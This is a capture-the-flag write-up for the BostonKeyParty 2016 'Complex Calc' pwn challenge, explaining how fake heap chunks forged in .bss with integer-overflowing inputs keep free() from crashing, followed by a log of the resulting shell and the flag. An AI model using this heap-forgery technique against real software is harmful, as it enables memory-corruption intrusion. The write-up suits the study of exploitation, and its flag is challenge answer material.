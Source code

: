 
## BostonKeyParty CTF 2016 - Complex Calc (Pwn 6pt)
##### 04/03 - 06/03/2015 (48hr)
___
### Description: 
we've fixed a tiny bug!

simplecalc.bostonkey.party 5500
___
### Solution
This code is identical with the simple calc. However the previous exploit doesn't work. We get 
segmentation fault upon free(). If we look at free(), there's no check if argument is NULL:
```assembly
.text:00000000004156D0 free            proc near ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                           ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0          mov     rax, cs:__free_hook
.text:00000000004156D7          test    rax, rax
.text:00000000004156DA          jnz     loc_41579A
.text:00000000004156E0          nop     dword ptr [rax]
.text:00000000004156E3          nop     word ptr [rax+rax+00h]
.text:00000000004156E9          mov     rax, [rdi-8]
.text:00000000004156ED          lea     rsi, [rdi-10h]
```
This means that ptr_10 must be a valid address pointing to the beginning of an allocated chunk on 
the heap:
```assembly
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
This would be trivial is ASLR was disabled, or if we could leak an address from the heap. However,
both scenarios are false so we need another trick.

In order to solve the problem we have to see exactly why free() crashes and how slab allocator
works. If we see an allocated chunk in heap, there are 8 bytes before it (called chunk header)
which stores some metadata about the allocated region:
```
offset:	-16                    -8
		+----------------------+--------------------------+
		| previous chunk size  | Chunk size % 8 + 3 FLAGS |
	  0 +----------------------+--------------------------+
ptr -->	|                                                 |
		|                    User Data                    |
		|                                                 |
		+--------------------------------------------------
```
The minimum possible chunk size is 8 bytes, so we use the 3 LSBits as flags. If the LSBit is 
clear, we can find the previous chunk by using ptr - 16 as the previous chunk size. Slab
allocator keeps a linked list with all free chunks. Upon free() we must insert (and possibly
coallesce) the chunk in the free list.

If we somehow forge a fake chunk, we can make slab allocator believing that it's a valid chunk,
so it won't crash on free(). Remember our goal is to don't crash, not to really free some memory.

The only memory region that we can control and we know its address is in .bss. These are the
global variables used to store arguemnts for calculations. Thus we have to create a fake
chunk there and overwrite ptr_10 with an address within there.

Let's see the memory layout:
```assembly
.bss:00000000006C4A80             public add_1_6C4A80
.bss:00000000006C4A80 00 00 00 00 add_1_6C4A80 dd 0 	; DATA XREF: adds+13o
.bss:00000000006C4A80                                	; adds+5Er ...
.bss:00000000006C4A84 00 00 00 00 add_2_6C4A84 dd 0  	; DATA XREF: adds+40o
.bss:00000000006C4A84                               	; adds+69r ...
.....
.bss:00000000006C4AB4                                	; subs+69r ...
.bss:00000000006C4AB8 00 00 00 00 _sub_ans_6C4AB8 dd 0  ; DATA XREF: subs+98w
.bss:00000000006C4AB8                                  	; subs+9Er ...
.bss:00000000006C4ABC 00 00 00 00 align 20h
```

This is how we can forge our fake chunk: 
```
0x06C4A80: add_1    --> any value
0x06C4A84: add_2 	--> any value	(ignored, because LSbit is set)
0x06C4A88: add_res 	--> 0x21		(16B long, and LSbit is set)
0x06C4A8C: align	--> 0x00 		(0 by default; it must be 0)

0x06C4A90: div_1 	--> any value 	(the actual allocated chunk)
0x06C4A94: div_2	--> any value
0x06C4A98: div_ans 	--> any value
0x06C4A9C: align	--> any value

0x06C4AA0: mul_1 	--> any value	(next chunk header)
0x06C4AA4: mul_2 	--> any value	(ignored, because LSbit is set)
0x06C4AA8: mul_ans 	--> 0x21		(16B long, and LSbit is set)
0x06C4AAC: align	--> 0x00 		(0 by default; it must be 0)

0x06C4AB0: sub_1 	--> any value 	(the actual allocated chunk)
0x06C4AB4: sub_2 	--> any value
0x06C4AB8: sub_sub	--> any value
0x06C4ABC: align	--> any value
```
Now, we can have 2 valid chunks at .bss, so free() won't complain, because the header pointers
will be valid. Thus all we have to do, is to overwrite ptr_10 with 0x06C4A90 (which supposed to
be the address of the 1st fake chunk). Because the size of the chunk (0x21, will be valid).

The last challenge is how to set add_res and mul_ans to 0x21. Because input numbers must be 
> 0x27, we have to use some very large numbers that will overflow and the result will be
very small. So:
```
add_1   = 0xffffff80 
add_2   = 0xa1
add_res = 0x100000021 = 0x21

mul_1   = 0x80000001
mul_2   = 0x80000021
mul_ans = 0x4000001100000021 = 0x21
```
Now we can write our exploit and get the flag **BKPCTF{th3 l4st 1 2 3z}**


```
root@xrysa:~/ctf/bostonkeyparty# ./complex_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit.
	=> whoami
		nobody
	ls -la
		total 1188
		drwxr-xr-x 2 root root   4096 Mar  5 03:37 .
		drwxr-xr-x 3 root root   4096 Mar  5 03:20 ..
		-rw-r--r-- 1 root root    220 Mar  5 03:20 .bash_logout
		-rw-r--r-- 1 root root   3637 Mar  5 03:20 .bashrc
		-rw-r--r-- 1 root root    675 Mar  5 03:20 .profile
		-rw-r--r-- 1 root root     24 Mar  5 03:37 key
		-rwxr-xr-x 1 root root     83 Mar  5 03:26 run.sh
		-rwxr-xr-x 1 root root 882266 Mar  5 03:25 simpleCalc_v2
		-rw-r--r-- 1 root root 302348 Mar  5 03:20 socat_1.7.2.3-1_amd64.deb
	cat key
		BKPCTF{th3 l4st 1 2 3z}
	exit
	*** Connection closed by remote host ***
```

___

